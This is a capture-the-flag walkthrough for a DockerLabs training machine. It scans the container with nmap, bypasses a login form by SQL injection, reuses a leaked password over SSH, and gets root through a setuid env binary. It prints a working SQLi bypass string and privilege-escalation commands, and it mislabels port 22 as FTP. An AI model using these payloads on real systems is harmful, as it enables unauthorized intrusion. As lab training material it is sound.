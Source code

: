 # Write Up First Hacking

**Difficulty:** Super fáil<br>
**Link to dockerlabs:** https://dockerlabs.es/

## Setting the enviroment
First of all we deploy the machine with the script that comes when downloading the machine
```
❯ chmod +x auto_deploy.sh
❯ sudo ./auto_deploy.sh injection.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Once deployed, we create the injection folder, go inside and use the *mkt* utility that creates the *nmap*, *content*, *exploits* and *scripts* folders.

```
❯ mkdir injection-dockerlabs
❯ cd injection-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 content
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 exploits
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 nmap
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 scripts
```
## Recon
The first thing that we do is a general reconnaissance with nmap over the victym machine, with the purpose to obtain the open ports.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
Once we have obtained the open ports we can do an exhaustive scan with recon scripts with the purpose to obtain the services that are running on each port and their's version.

```
❯ extractPorts allPorts
[*] Extracting information...

   [*] IP Address: 172.17.0.2
   [*] Open ports: 22,80

[*] Ports copied to clipboard

❯ nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 17:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
```

In this way we discovered that the service running on port 22 (FTP port) is OpenSSH 8.9p1 and on port 80 (http port) an Apache httpd 2.4.52 web service is running.

## Exploit
As we have seen that there is a web service running on the victim machine, we proceed to view the web, adding the domain (in this case it does not have one and we will simply put the name of the machine) to the */etc/hosts* file of our virtual machine (it is the local DNS configuration file).

```
❯ sudo vi /etc/hosts
❯ cat /etc/hosts
127.0.0.1   localhost
127.0.1.1   kali

172.17.0.2  injection

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Once the */etc/hosts* file is configured, we proceed to access the website, and we see that it is a login form.

![Web](../.sources/injection-login.png)

Let's try entering the basic parameters to check for SQL injection. To do this, enter the string *admin' OR '1' = '1'; --* in the username section and anything else for password (in my case, I put *hacked!*) to allow the form to be submitted. If everything goes well, you'll be able to log in as the administrator (if it doesn't work with the admin user, you can change it to root, administrator, and similar, but without wasting too much time).

```
User: admin' OR '1' = '1'; --
Password: hacked!
```

And bingo! We're in and we get Dylan's credentials.

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Having obtained these credentials, we can try to access through the also open ssh port.

```
ssh dylan@injection
dylan@injection's password: (aquí ponemos el password)
dylan@6b329dffcb35:~$ 
```

And we alredy get access to the machine!

## Privilege escalation

To be able to use the console in a more comfortable way we can do the following treatment of the terminal:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Now that we have a terminal we look for files (preferably binary) with the root user and the *setuid* flag active and we find the following:

```
dylan@6b329dffcb35:/bin$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/chsh
```

So we use the env command as follows and elevate privileges to root

```
dylan@6b329dffcb35:/bin$ ./env /bin/sh -p
# whoami
root
# 
```